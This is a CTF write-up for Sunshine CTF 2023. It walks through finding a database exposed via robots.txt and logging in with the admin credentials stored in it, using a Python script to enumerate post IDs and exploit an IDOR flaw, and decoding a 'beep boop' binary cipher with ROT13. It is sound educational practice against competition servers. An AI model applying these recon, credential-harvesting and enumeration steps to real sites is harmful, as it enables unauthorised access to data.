 # Sunshine CTF 2023

Sunshine CTF Writeup:

## WEB:
### Hotdog Stand:
In the not-so-distant future, robots have taken over the fast-food industry. Infiltrate the robot hotdog stand to find out whatjobs still remain.
https://hotdog.web.2023.sunshinectf.games 

1. Visit URL
2. See if robots.txt is available
	robots.txt contains:
		User-agent: * Disallow: /configs/ Disallow: /backups/ Disallow: /hotdog-database/
3. Visit /hotdog-database/
	prompts a db download
4. Use DB Browser to open the db file
5. Database has table "credentials"
	right-click the table and browse table
	admin login credentials are listed
6. Use login creds to login to the site
	flag is displayed:
				Welcome to the hotdog stand.
		Please take your authentication token: sun{5l1c3d_p1cKl35_4nd_0N10N2}

### BeepBoop Blog:
A few robots got together and started a blog! It's full of posts that make absolutely no sense, but a little birdie told me that one of them left a secret in their drafts. Can you find it?
https://beepboop.web.2023.sunshinectf.games 

1. Visit URL
2. Open Burp and enable proxy
3. Click "View All..." on a post so that the burp proxy catches it
4. Look at the request and the reply
	Notice that there is a hidden attribute on the reply
5. Copy all of the request header from burp
6. Write a script that will run through a loop of the posts (there are 1024 total)
	python has a requests library that will essentially act like curl
	
		import requests

		requests.packages.urllib3.disable_warnings()

		base_url = "https://beepboop.web.2023.sunshinectf.games/post/"

		for post_id in range(1024):
    		    url = f"{base_url}{post_id}/"
    	  	    headers = {
        		"Host": "beepboop.web.2023.sunshinectf.games",
        		"User-Agent": "Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0",
        		"Accept": "*/*",
        		"Accept-Language": "en-US,en;q=0.5",
        		"Accept-Encoding": "gzip, deflate",
        		"Referer": "https://beepboop.web.2023.sunshinectf.games/",
        		"Sec-Fetch-Dest": "empty",
        		"Sec-Fetch-Mode": "cors",
        		"Sec-Fetch-Site": "same-origin",
        		"Te": "trailers",
    		}

    		response = requests.get(url, headers=headers, verify=False)

    		if response.status_code == 200:
        		try:
            		    json_data = response.json()
            		    hidden = json_data.get("hidden", False)
            		    print(f"Post {post_id}: hidden: {hidden}")
        		except ValueError:
            		    print(f"Post {post_id}: JSON response not found")
    		else:
        	    print(f"Post {post_id}: Error - Status Code {response.status_code}")
        	    
7. Watch the output to see "Post 608: hidden: True"
8. Use burp to make a request to /post/608
9. Flag will be displayed in the response:
	HTTP/2 200 OK
	Server: nginx/1.18.0 (Ubuntu)
	Date: Sun, 08 Oct 2023 19:35:29 GMT
	Content-Type: application/json
	Content-Length: 66

	{
	"hidden":true,
	"post":"sun{wh00ps_4ll_IDOR}",
	"user":"Robot #000"
	}
	
	
## CRYPTO:
### BeepBoop Cryptography:
Help! My IOT device has gone sentient!

All I wanted to know was the meaning of 42!

It's also waving its arms up and down, and I...

oh no! It's free!

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Automated Challenge Instructions

Detected failure in challenge upload. Original author terminated. Please see attached file BeepBoop for your flag... human.

1. Open the file given
	Full of 'Beep Boop'
	Beep = 0
	Boop = 1
2. Convert to binary
	Open file in vim
	:%s/beep/0/g - converts all beeps to 0s
	:%s/boop/1/g - converts all boops to 1s
	:%$/ //g - takes away all spaces
	:%s/\(........\)/\1 /g - adds a space after every 8th character
3. Upload file as input in to CyberChef
4. Use "from binary" recipe
	Notice the output looks similar to a flag:
		fha{rkgrezvangr-rkgrezvangr-rkgrezvangr}
5. Use ROT13 recipe
	Get flag!!
		sun{exterminate-exterminate-exterminate}

